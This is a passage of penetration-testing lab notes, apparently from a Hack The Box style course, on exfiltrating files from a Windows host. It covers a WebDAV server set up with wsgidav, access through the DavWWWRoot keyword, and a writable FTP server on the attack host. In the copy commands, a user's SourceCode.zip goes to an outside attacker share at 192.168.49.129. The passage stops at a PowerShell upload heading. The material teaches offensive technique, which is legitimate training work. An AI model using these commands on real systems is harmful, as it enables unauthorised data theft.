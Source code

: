 ## SMB Uploads

### Configuring WebDav Server

To set up our WebDav server, we need to install two Python modules, 'wsgidav' and 'cheroot' (you can read more about this implementation here: [wsgidav github](https://github.com/mar10/wsgidav)).
After installing them, we run the wsgidav application in the target directory.

### Installing WebDav Python modules

```bash
  sudo pip3 install wsgidav cheroot
```

### Using the WebDav Python module

```bash
  sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

### Connecting to the Webdav Share

Now we can attempt to connect to the share using the **DavWWWRoot** directory.

```powershell
  C:\htb> dir \\192.168.49.128\DavWWWRoot
```

> Note: Note: **DavWWWRoot** is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles
> WebDAV requests that you are connecting to the root of the WebDAV server.
>
>You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder

### Uploading Files using SMB

```powershell
  C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
  C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

## FTP Uploads

Uploading files using FTP is very similar to downloading files. We can use PowerShell or the FTP client to complete the operation. Before we start our FTP Server using the Python module `pyftpdlib`,
we need to specify the option `--write` to allow clients to upload files to our attack host.

```bash
  sudo python3 -m pyftpdlib --port 21 --write
```

Now let's use the PowerShell upload function to upload a file to our FTP Server.

### PowerShell Upload File
